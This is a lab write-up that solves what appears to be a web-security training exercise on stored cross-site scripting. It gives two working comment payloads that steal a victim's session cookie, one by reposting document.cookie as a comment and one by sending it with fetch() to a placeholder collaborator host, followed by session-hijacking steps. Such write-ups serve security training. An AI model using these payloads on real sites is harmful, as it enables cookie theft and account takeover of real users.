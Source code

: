 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's session cookie, then use this cookie to impersonate the victim.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim to post their session cookie as a comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <script>
  window.addEventListener('DOMContentLoaded', function(){

  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();

  data.append('csrf', token);
  data.append('postId', 5);
  data.append('comment', document.cookie);
  data.append('name', 'chris');
  data.append('email', 'chris@01.com');
  data.append('website', 'http://www.chris.com');

  fetch('/post/comment', {
	  method: 'POST',
	  mode: 'no-cors',
	  body: data
  });
  });
  </script>
- Note: Change the `postId` parameter according to the post where you're commenting.
- Go back to the post and view that the session cookie and a secret is posted.
- Copy the session cookie, inspect the page using Ctrl+shift+c and go to application tab.
- Go to cookies and change the session cookie's value with the victim's cookie and hit Enter.

### How the script works
- This script runs when the page finishes loading. It grabs the `CSRF` token from the page, creates a FormData object, and fills it with the necessary fields to post a comment.
- The key part is that it sets the comment field to document.cookie, which captures the user's cookies. It then uses `fetch()` to send a `POST` request to the `/post/comment` endpoint, silently submitting the stolen cookie as a comment.
- `mode: 'no-cors'` is used to prevent CORS related errors since we don’t need to read the server's response.


### Using Burp Collaborator

- Using Burp Suite Professional, go to the Collaborator tab.
- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
- Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
  ```html
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body:document.cookie
  });
  </script>
- This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
- Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
- Take a note of the value of the victim's cookie in the POST body.
- Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to /my-account to load the admin user's account page.
